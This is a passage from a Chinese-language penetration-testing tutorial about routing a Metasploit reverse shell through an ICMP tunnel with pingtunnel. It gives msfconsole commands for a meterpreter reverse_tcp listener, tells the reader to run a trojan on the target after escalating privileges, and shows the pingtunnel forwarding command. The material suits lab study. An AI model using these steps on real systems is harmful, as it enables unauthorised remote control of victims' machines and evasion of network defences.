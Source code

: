 #### 4.2.3.3. 设置监听

这里我们需要设置监听的IP为0.0.0.0，确保能够正常监听到。

```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 6666
run
```

![image-20230516104332971](assets/lDd3LGu1tNRMABU.png)

### 4.2.4. 正式测试

到这里，我们前期的准备都OK了，下面我们就开始正式的操作吧。

#### 4.2.4.1. 目标主机测试

这里我们将目标主机上的木马进行运行，然后再运行工具，主要这里运行工具需要使用最高权限，简单来说，当你获取到域内主机的时候，需要先提权，然后在转发。

这里我发现，如果先执行木马再运行工具，MSF无法上线，需要先运行工具，然后在执行木马才可以上线。

```
pingtunnel.exe -type client -l 127.0.0.1:5555 -s 192.168.10.20 -t 192.168.10.20:6666 -tcp 1 -noprint 1 -nolog 1
```
